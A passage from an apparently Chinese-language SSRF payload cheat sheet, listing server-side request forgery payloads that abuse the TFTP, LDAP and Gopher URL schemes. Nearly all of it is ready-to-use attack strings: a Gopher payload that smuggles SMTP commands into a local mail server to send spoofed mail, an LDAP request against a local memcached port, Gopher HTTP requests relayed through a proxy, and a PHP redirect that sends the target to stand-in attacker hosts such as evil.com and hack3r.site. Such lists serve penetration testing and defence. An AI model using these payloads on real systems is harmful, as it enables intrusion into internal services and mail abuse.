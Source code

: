 简单文件传输协议，通过UDP工作

```powershell
ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET
```

### LDAP

轻量级目录访问协议。它是一个应用协议，通过IP网络管理和访问分布式目录信息服务。

```powershell
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
```

### Gopher

```powershell
ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
```

会发起如下请求
HELO localhost
MAIL FROM:<hacker@site.com>
RCPT TO:<victim@site.com>
DATA
From: [Hacker] <hacker@site.com>
To: <victime@site.com>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: Ah Ah AH

You didn't say the magic word !


.
QUIT

#### Gopher HTTP

```powershell
gopher://<代理服务器>:8080/_GET http://<攻击者:80>/x HTTP/1.1%0A%0A
gopher://<代理服务器>:8080/_POST%20http://<攻击者>:80/x%20HTTP/1.1%0ACookie:%20eatme%0A%0AI+am+a+post+body
```

#### Gopher SMTP - 反向连接到1337

```php
evil.com/redirect.php的内容:
<?php
header("Location: gopher://hack3r.site:1337/_SSRF%0ATest!");
?>

现在查询它。
https://example.com/?q=http://evil.com/redirect.php.
```
